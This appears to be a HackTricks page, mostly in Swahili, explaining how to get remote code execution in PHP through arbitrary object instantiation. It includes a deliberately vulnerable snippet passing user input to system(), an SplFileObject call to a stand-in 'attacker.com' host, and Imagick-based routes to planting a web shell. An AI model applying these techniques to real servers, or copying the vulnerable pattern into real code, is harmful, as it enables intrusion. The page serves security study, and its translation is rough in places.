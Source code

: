 # PHP - RCE abusing object creation: new $\_GET\["a"]\($\_GET\["b"])

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

Hii ni kwa kifupi muhtasari wa [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

## Utangulizi

Uundaji wa vitu vipya vya kiholela, kama `new $_GET["a"]($_GET["a"])`, unaweza kusababisha Utekelezaji wa Msimbo wa K remote (RCE), kama ilivyoelezwa katika [**andika**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/). Hati hii inasisitiza mikakati mbalimbali za kufikia RCE.

## RCE kupitia Madarasa ya Kijadi au Autoloading

Sintaksia `new $a($b)` inatumika kuunda kitu ambapo **`$a`** inawakilisha jina la darasa na **`$b`** ni hoja ya kwanza iliyopitishwa kwa mjenzi. Vigezo hivi vinaweza kupatikana kutoka kwa ingizo la mtumiaji kama GET/POST, ambapo vinaweza kuwa nyuzi au orodha, au kutoka JSON, ambapo vinaweza kuonekana kama aina nyingine.

Fikiria kipande cha msimbo kilichopo hapa chini:
```php
class App {
function __construct ($cmd) {
system($cmd);
}
}

class App2 {
function App2 ($cmd) {
system($cmd);
}
}

$a = $_GET['a'];
$b = $_GET['b'];

new $a($b);
```
Katika hali hii, kuweka `$a` kuwa `App` au `App2` na `$b` kuwa amri ya mfumo (mfano, `uname -a`) kunasababisha utekelezaji wa amri hiyo.

**Mifumo ya Autoloading** inaweza kutumika vibaya ikiwa hakuna madarasa kama hayo yanayopatikana moja kwa moja. Mifumo hii inasababisha madarasa kupakuliwa moja kwa moja kutoka kwa faili inapohitajika na inafafanuliwa kwa kutumia `spl_autoload_register` au `__autoload`:
```php
spl_autoload_register(function ($class_name) {
include './../classes/' . $class_name . '.php';
});

function __autoload($class_name) {
include $class_name . '.php';
};

spl_autoload_register();
```
The behavior of autoloading varies with PHP versions, offering different RCE possibilities.

## RCE kupitia Madarasa ya Msingi

Kukosa madarasa ya kawaida au autoloaders, **madarasa ya msingi ya PHP** yanaweza kutosha kwa RCE. Idadi ya madarasa haya inatofautiana kati ya 100 hadi 200, kulingana na toleo la PHP na nyongeza. Yanaweza kuorodheshwa kwa kutumia `get_declared_classes()`.

Mifano ya wajenzi wa kupendeza inaweza kutambuliwa kupitia API ya reflection, kama inavyoonyeshwa katika mfano ufuatao na kiungo [https://3v4l.org/2JEGF](https://3v4l.org/2JEGF).

**RCE kupitia mbinu maalum inajumuisha:**

### **SSRF + Phar Deserialization**

Darasa la `SplFileObject` linawezesha SSRF kupitia wajenzi wake, likiruhusu muunganisho na URL yoyote:
```php
new SplFileObject('http://attacker.com/');
```
SSRF inaweza kusababisha mashambulizi ya deserialization katika toleo la PHP kabla ya 8.0 kutumia itifaki ya Phar.

### **Kunutumia PDOs**

Mjenzi wa darasa la PDO unaruhusu muunganisho na hifadhidata kupitia nyuzi za DSN, ambayo inaweza kuwezesha uundaji wa faili au mwingiliano mwingine:
```php
new PDO("sqlite:/tmp/test.txt")
```
### **SoapClient/SimpleXMLElement XXE**

Matoleo ya PHP hadi 5.3.22 na 5.4.12 yalikuwa na hatari ya mashambulizi ya XXE kupitia waumbaji wa `SoapClient` na `SimpleXMLElement`, kulingana na toleo la libxml2.

## RCE kupitia Imagick Extension

Katika uchambuzi wa **tegemeo la mradi**, iligundulika kuwa **Imagick** inaweza kutumika kwa **utendaji wa amri** kwa kuunda vitu vipya. Hii inatoa fursa ya kutumia udhaifu.

### VID parser

Uwezo wa VID parser wa kuandika maudhui kwenye njia yoyote iliyoainishwa katika mfumo wa faili ulitambuliwa. Hii inaweza kusababisha kuwekwa kwa shell ya PHP katika saraka inayoweza kufikiwa mtandaoni, ikipata Remote Code Execution (RCE).

#### VID Parser + Upakiaji wa Faili

Imepangwa kuwa PHP inahifadhi faili zilizopakiwa kwa muda katika `/tmp/phpXXXXXX`. VID parser katika Imagick, ikitumia itifaki ya **msl**, inaweza kushughulikia wildcards katika njia za faili, ikirahisisha uhamishaji wa faili ya muda kwenda mahali ulipochagua. Njia hii inatoa mbinu ya ziada ya kufikia uandishi wa faili bila mipaka ndani ya mfumo wa faili.

### PHP Crash + Brute Force

Mbinu iliyoelezwa katika [**andiko la asili**](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/) inahusisha kupakia faili zinazochochea kuanguka kwa seva kabla ya kufutwa. Kwa kutumia brute-force jina la faili ya muda, inakuwa inawezekana kwa Imagick kutekeleza msimbo wa PHP bila mipaka. Hata hivyo, mbinu hii ilipatikana kuwa na ufanisi tu katika toleo la zamani la ImageMagick.

## Marejeleo

* [https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/](https://swarm.ptsecurity.com/exploiting-arbitrary-object-instantiations/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
